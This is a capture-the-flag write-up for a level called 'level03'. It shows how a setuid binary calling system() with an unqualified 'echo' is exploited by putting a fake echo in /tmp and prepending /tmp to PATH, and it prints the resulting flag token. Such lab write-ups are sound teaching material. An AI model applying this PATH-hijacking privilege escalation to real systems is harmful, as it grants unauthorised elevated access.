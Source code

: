 # Level 03

As `level03` if we run `ls` we see that a `level03` binary is present in the home directory.

```shell
  $> ./level03
  Exploit me
```

> In order to exploit this binary, we need to know what it does.

Using [`ltrace`](https://man7.org/linux/man-pages/man1/ltrace.1.html), we can grasp what the program does by showing us system and dynamic library calls.

```shell
  $> ltrace ./level03
  __libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
  getegid()                                                                  = 2003
  geteuid()                                                                  = 2003
  setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                        = 0   
  setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                        = 0   
  system("/usr/bin/env echo Exploit me"Exploit me
  <unfinished ...>
  --- SIGCHLD (Child exited) ---
  <... system resumed> )                                                     = 0
  +++ exited (status 0) +++
```

> As we can see this program checks effective GID and UID before setting them back to the same values so we don't care about this part.

We need to focus on the [`system()`](https://man7.org/linux/man-pages/man3/system.3.html) call that basically execute a string as a shell command. It is known to be exploitable and it is the case here because [`echo`](https://linux.die.net/man/1/echo) is involved here. We simply need to override what `echo` stands for by adding at the beginning of the **$PATH** another version of it.

```shell
  $> echo "/bin/getflag" > /tmp/echo
  $> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
```

> It would work for anything else that is supposed to be evaluated through `$PATH` as well. Because this variable is an ordered list of directories to look through to find executable files, the first occurence that matches will be used as source of truth.

Let's check details about this binary with `ls -l level03`...

```shell
  $> ls -l level03
  -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03 
```

> Since this program is owned by `flag03`, overriding `echo` by `getflag` will work correctly because the binary is executed as `flag03` who has the right to run this command.

Finally, run the binary once more to get this level's flag.
```shell
  $> ./level03 
  Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

So, `qi0maab88jeaj46qoumi7maus` is the flag for this level.
